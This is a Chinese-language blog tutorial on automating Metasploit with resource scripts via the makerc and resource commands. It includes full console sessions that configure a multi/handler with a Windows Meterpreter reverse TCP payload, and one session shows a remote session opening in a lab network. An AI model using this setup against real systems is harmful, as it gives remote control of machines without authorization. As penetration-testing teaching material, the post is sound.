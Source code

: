 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit资源脚本的使用方法
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit资源脚本的使用方法
lock: need
---
```


# Metasploit资源脚本的使用方法

Metasploit可以通过资源脚本实现自动化——使用资源脚本可以免去手动设置选项，实现选项的自动化设置，从而节省配置模块选项和攻击载荷所花费的时间。

创建资源脚本有两种方法：手动创建脚本或使用makerc命令创建脚本。makerc命令将之前输入过的所有命令都保存到一个文件中，可以使用resource命令使用这个文件。

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1025) at 2019-01-25 23:27:58 +0800

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.175.130 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/handler) > makerc
Usage: makerc <output rc file>

Save the commands executed since startup to the specified file.

msf5 exploit(multi/handler) > makerc multi_handler
[*] Saving last 8 commands to multi_handler ...
msf5 exploit(multi/handler) > 
```

这里，我们通过设置攻击载荷和各种选项，成功启动了一个渗透模块handler，输入makerc命令就可以将这些命令保存到一个指定的文件中。在这个示例中是multi_handler文件，我们保存了最近使用的8条命令。

接下来，我们就要通过resource命令使用这个资源文件，达到选项的自动化设置，如下所示：

```
msf5 exploit(multi/handler) > resource multi_handler 
[*] Processing /root/multi_handler for ERB directives.
resource (/root/multi_handler)> use exploit/multi/handler
resource (/root/multi_handler)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/multi_handler)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/multi_handler)> set LPORT 4444
LPORT => 4444
resource (/root/multi_handler)> show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


resource (/root/multi_handler)> exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

